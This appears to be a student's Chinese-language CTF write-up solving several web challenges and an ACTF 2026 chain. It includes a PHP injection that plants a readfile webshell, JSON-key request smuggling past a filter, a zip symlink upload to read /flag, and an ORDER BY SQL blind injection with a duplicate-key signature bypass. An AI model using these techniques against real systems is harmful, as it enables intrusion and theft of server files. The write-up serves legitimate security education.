





# ZJU：CTF上的ID：nothing793
# slide 18
## 1.过程
- 1.得出flag地址 /flag_66881f86bbea732f
    
- 2.我们将读取命令混入hello中
    输入 /?hello='<?=readfile("/flag_66881f86bbea732f")?>' > /var/www/html/s.php
- 3.直接读取s.php
    
## 2.结果
flag：`flag{you_know_essence_of_vulnerability_5780b0efc099} `

---
# slide 54
## 1.过程
### 1.阅读附件代码
    - 我们得出：forwarder.py会阻拦`/flag`,但backend.py需要接受到`/flag`,
    - 所以我们需要做的是让请求在前端不是`/flag`,在后端是`/flag`
    - 我们在burp suite上的test证实了 诸如`/flag`,`/fla%67`的request均会被blocked。

---

## 2.构造请求
    -  `{headers}","path":"/flag","x":"y`我们将它转为url码

- ---

### 3.模拟查验 
- 1.`if path == "/flag":`
        此时 path 是 `{headers}","path":"/flag","x":"y`
        这等于 `/flag` 吗？不等于！ 它比 `/flag `长得多。
- 2.`headers = unquote("\\n".join(f"{k}: {v}" for k, v in self.headers.items()))`
        `req = '{"method":"GET","path":"{path}","headers":"{headers}"}\n'`
        `req = req.replace("{path}", path).replace("{headers}", headers).encode()`    
#### **3.1 模板：**
        `
          {"method":"GET","path":"{path}","headers":"{headers}"}
          {"method":"GET","path":"{path}","headers":"{headers}"}
          `
#### **3.2 第一次 replace("{path}", path)：**
        把 `{path}` 替换成我的` path：`
          `{"method":"GET",
          "path":"{headers}",   ← {headers} 暴露出来了 
          "path":"/flag",
          "x":"y",
          "headers":"{headers}"}` ← {headers}                                 
#### **3.3 第二次 replace("{headers}", headers)：**
        把所有 {headers}（包括带进来的那两个）都替换成实际的 headers 值（Host: 127.0.0.1:52044）：
        `{
            "method": "GET",
            "path": "Host: 127.0.0.1:52044",   ← 第一个 path
            "path": "/flag",                     ← 第二个 path（注入的，覆盖前者）
            "x": "y",
            "headers": "Host: 127.0.0.1:52044"
        }`
    - 3. 发给后端：我们成功骗过了前端，并且后端给出了flag
# 2.flag：

`flag{JTTP_3.0_is_on_the_horizon_d322d9e0258f}`

- --
# slide 71
## 1.过程
- 1.分析代码，这是一个上传文件的网页，我们用burp suite打开它；
- 2.用wsl生成一个exploit.zip，其中有flag_link(事实上就是"/flag"),这是一个zip文件，服务器不会检查；
- 3.随意上传一个zip，拦截它
- 4.在repeater中将普通的zip换为exploit.zip，然后send

- 5.得到一段乱码输出，这就是我们要的flag.zip，复制，并解压缩

flag_link中就是我们需要的flag。
注：exploit.zip，result.zip见attachment
## 2.结果
Flag：`flag{carefully_slide_955f34123ee7}`
- --
# 答案验证

---
# bonus：ACTF 2026 — 12307
（这个题目是在阅读题解后得出的）
## 1.核心漏洞：重复 JSON 键的解析差异
这是整条链的灵魂所在。
carrierSeal 是一个签名的 JWT-like 对象。系统在不同阶段用不同方式解析同一个 JSON payload：
阶段解析方式看到的键值
`
签名校验 (receipt_signer)first-wins（取第一次出现）printProfile=counter-copy, printer=thermal-standard
渲染执行 (settlement worker)last-wins（取最后一次出现）printProfile=clearing-batch, printer=line-printer
`
构造重复键 payload：
```python  
      
          {
  "printProfile": "counter-copy",     // 校验阶段看到这个（安全）
  "printer": "thermal-standard",
  ...
  "printProfile": "clearing-batch",   // 渲染阶段看到这个（危险）
  "printer": "line-printer",
  "driverProgram": "/usr/bin/base64",
  "driverArgument": "/flag"
}
          {
  "printProfile": "counter-copy",     // 校验阶段看到这个（安全）
  "printer": "thermal-standard",
  ...
  "printProfile": "clearing-batch",   // 渲染阶段看到这个（危险）
  "printer": "line-printer",
  "driverProgram": "/usr/bin/base64",
  "driverArgument": "/flag"
}
```      
      校验器认为是普通柜台打印 ，渲染器走进高级结算打印通道  → 同一份签名同时满足两边条件。

## 2.完整利用链（10 步）
下面是逐步的详细分析，每步都解释 为什么需要它 和 怎么做到。
### Step 1：创建可信乘客身份 →` POST /api/mobile/identity/continue`
为什么需要：后续所有操作都需要一个合法的 `passenger_session`，包括创建订单、`WebSocket `登车。
怎么做：
```python
        
          POST /api/mobile/identity/continue
{
  "passenger": "fresh",
  "relayState": {"next": "rail://continue/seat-hold", "flow": ["seat-hold"]},
  "partnerMetadata": {
    "entityID": "railway-partner",
    "compatBinding": "x-accel",
    "role": "PassengerIdentityProvider"
  },
  "assertion": "<Assertion>...SAML断言...</Assertion>",
  "trustLevel": ["mobile", "partner"],
  "stationCode": "HGH"
}


          POST /api/mobile/identity/continue
{
  "passenger": "fresh",
  "relayState": {"next": "rail://continue/seat-hold", "flow": ["seat-hold"]},
  "partnerMetadata": {
    "entityID": "railway-partner",
    "compatBinding": "x-accel",
    "role": "PassengerIdentityProvider"
  },
  "assertion": "<Assertion>...SAML断言...</Assertion>",
  "trustLevel": ["mobile", "partner"],
  "stationCode": "HGH"
}
```                  
### Step 2：创建 waitlisted 订单 → POST /api/mobile/orders
  - 为什么需要：
      G7608 次列车 business 座位库存为 0，下单直接进入 waitlisted.服务端会自动生成 `station_claim_artifact`（包含 `claim_salt、claim_digest`），这是后续恢复 claimProof 的基础
  - 怎么做：
```python    
  POST /api/mobile/orders/hold  → 锁定座位
  {"trainId": "G7608", "seatClass": "business", "holdMode": "waitlist"}

  POST /api/mobile/orders  → 正式下单
  {"trainId": "G7608", "seatClass": "business", "passenger": "fresh"}


  POST /api/mobile/orders/hold  → 锁定座位
  {"trainId": "G7608", "seatClass": "business", "holdMode": "waitlist"}

  POST /api/mobile/orders  → 正式下单
  {"trainId": "G7608", "seatClass": "business", "passenger": "fresh"}

```
      拿到返回的 orderId。
### Step 3：利用 SQL 盲注泄露 claim_salt → POST /api/desk/fares/reprice
  - 为什么需要：
      station adjustment（Step 5）需要 claimProof，格式为 CP-{salt}-{digest前12位}
      claim_salt 不直接返回，需要从数据库中泄露

  - 漏洞点：tariffScope.mode = "legacy-rank" 时，expr 被直接拼入 SQL 的 ORDER BY 子句。
  - 布尔盲注信道：
      如果 ORDER BY 把 station_code='HGH' 排在前面 → 返回 "local-window"
      如果 ORDER BY 把 station_code='BJP' 排在前面 → 返回 "north-window"
  - 逐字符二分盲注：
          -- expr 的实际效果：
ORDER BY (CASE WHEN (substr(claim_salt, pos, 1) > 'M')
            THEN station_code='HGH'
            ELSE station_code='BJP'
          END) DESC
      通过二分查找（36 字符字母表 0-9A-Z），逐位恢复出 claim_salt。
### Step 4：计算合法 claimProof

        ```python
          digest = sha256(f"{orderId}|G7608|HGH|T-HGH-7608-019|{salt}").hexdigest()[:12]
          claim_proof = f"CP-{salt}-{digest}"
          digest = sha256(f"{orderId}|G7608|HGH|T-HGH-7608-019|{salt}").hexdigest()[:12]
          claim_proof = f"CP-{salt}-{digest}"
        ```

- Step 5：站点调整 → 创建 layout entitlement
  - 为什么需要：没有 layout entitlement，receipt 渲染不会经过私有打印桥，只会得到普通文本。
  - 两步走：
  - 5a. 提交站点 notice + 导入 partner feed（配置 trusted lane 和签名 key）：
        ```python
          # 先写入 notice，携带 proxyHint 头
        POST /api/desk/notices → proxyHint:
        X-Desk-Lane: delta-window-27
        X-Board-Window: seat-window-e27
        X-Desk-Key-Id: POL-HGH-TRUSTED
        X-Desk-Key: delta-window-27
          # 触发导入编译
        POST /api/desk/imports/health
        adapter = "station-partner-feed"
          # 先写入 notice，携带 proxyHint 头
        POST /api/desk/notices → proxyHint:
        X-Desk-Lane: delta-window-27
        X-Board-Window: seat-window-e27
        X-Desk-Key-Id: POL-HGH-TRUSTED
        X-Desk-Key: delta-window-27
          # 触发导入编译
        POST /api/desk/imports/health
        adapter = "station-partner-feed"
        ```

  - 5b. 提交 adjustment + 触发 desk ledger 编译：

        ```python
          POST /api/desk/tickets/adjust
        claimProof = "CP-RQDWRNFDP-48958b5a1cf5"
        memo = {"role":"settlement-layout","layout":"folio-grid-27","device":"PR-HGH-042","enabled":true}

        # 触发编译，创建 layout entitlement
          POST /api/desk/imports/health
        adapter = "station-desk-ledger"
        target = "rail-mesh://desk/ledger?orderId=...&stationCode=HGH"
          POST /api/desk/tickets/adjust
        claimProof = "CP-RQDWRNFDP-48958b5a1cf5"
        memo = {"role":"settlement-layout","layout":"folio-grid-27","device":"PR-HGH-042","enabled":true}
        # 触发编译，创建 layout entitlement
          POST /api/desk/imports/health
        adapter = "station-desk-ledger"
        target = "rail-mesh://desk/ledger?orderId=...&stationCode=HGH"
        ```
### Step 6：布局导入

        
          POST /api/corporate/imports/relay
  adapter = "enterprise-clearing"
  target = "rail-mesh://clearing/layout?orderId=...&stationCode=HGH"

      将 layout entitlement 同步到企业侧。
### Step 7：WebSocket 登车获取 ledgerRef
为什么需要：carrierSeal 必须包含合法的 ledgerRef，服务端会在 Redis 中校验。
WebSocket 协议交互（需要裸 socket 编程）：
1. CLIENT →  boarding.hello   → 获取 channel
2. CLIENT →  boarding.bind     → 绑定 topic、trainId、seatClass
3. CLIENT →  boarding.confirm  → 传入 orderId、stationCode
4. SERVER →  {"ledgerRef": "..."}
### Step 8：创建结算批次 + 提交重复键 seal

```py
# 创建 deferred 结算批次
POST /api/corporate/reconciliation
  reportType = "carrier-closeout", defer = true
# 返回 batchId + templateDigest
# 构造带重复键的 JWT
# payload 中 printProfile/printer 出现两次（first-wins vs last-wins）
# 提交通过签名校验的 carrierSeal
POST /api/corporate/receipts/prepare
```
    
### Step 9：打开 fulfillment window + 调度结算

```py
# 打开 fulfillment window（允许执行结算）
POST /api/corporate/imports/relay
  adapter = "fulfillment-monitor"
  target = "rail-mesh://fulfillment/window?orderId=..."
# 触发实际渲染
POST /api/corporate/settlement/schedule
  batchId = "..."
```
 
### Step 10：读取结果

```py 
# 轮询获取渲染结果
GET /api/corporate/reconciliation/{batchId}
# report.body 中包含 /flag 的 base64 编码结果
# base64.decode → ACTF{wHy_ar1_y0u_so0O0o0Oo0o_Fas1?????_C2Cfw6ryD94}
```
## 3.Flag
ACTF{wHy_ar1_y0u_so0O0o0Oo0o_Fas1?????_C2Cfw6ryD94}

